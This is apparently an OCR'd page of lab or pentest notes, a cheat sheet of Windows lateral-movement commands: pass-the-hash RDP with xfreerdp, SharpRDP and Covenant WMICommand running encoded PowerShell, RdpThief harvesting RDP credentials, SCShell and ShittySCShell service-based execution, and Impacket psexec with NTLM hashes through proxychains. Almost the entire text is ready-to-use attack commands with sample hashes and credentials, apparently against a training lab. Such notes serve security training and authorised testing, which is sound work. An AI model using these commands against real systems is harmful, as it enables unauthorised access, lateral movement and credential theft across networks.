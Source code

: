 ```
xfreerdp /u:admin /pth:2892d26cdf84d7a70e2eb3b9f05c425e /d:corp1.com /v:192.168.83.6
```

#### SharpRDP

```
> .\SharpRDP.exe computername=appsrv01 command="powershell -exec bypass -enc IAA9[...]AA==" username=corp1\dave password=lab
```

#### RdpThief

```
c:\tools\> mstsc.exe

c:\tools\> .\RdpThiefInject.txe

c:\tools\> type c:\users\dave\appdata\local\temp\2\data.bin
```

### PsExec

#### ShittySCShell

```
ShittySCShell.exe appsrv01 InstallService "c:\windows\system32\cmd.exe /C powershell -exec bypass -enc JABk[...]AJAB"
```

#### SCShell

python

```
python3 scshell.py -service-name 'SensorService' 'corp1/admin:lab@192.168.83.6'

python3 /usr/local/bin/scshell.py -hashes '1ef8ec7a4e862ed968d4d335afb77215:1ef8ec7a4e862ed968d4d335afb77215' 'vault/sqladm@172.0.0.155'
```

exe

```
.\SCShell.exe 192.168.83.121 InstallService "c:\windows\system32\cmd.exe /c powershell -exec bypass -enc
```

#### Impacket

```
proxychains psexec.py -hashes '1ef8ec7a4e862ed968d4d335afb77215:1ef8ec7a4e862ed968d4d335afb77215' 'vault/sqladm@172.16.83.152'
```

#### Using Covenant WMICommand

```
> wmicommand dc02 "powershell -exec bypass -enc JABkA[...]AAoA"
```

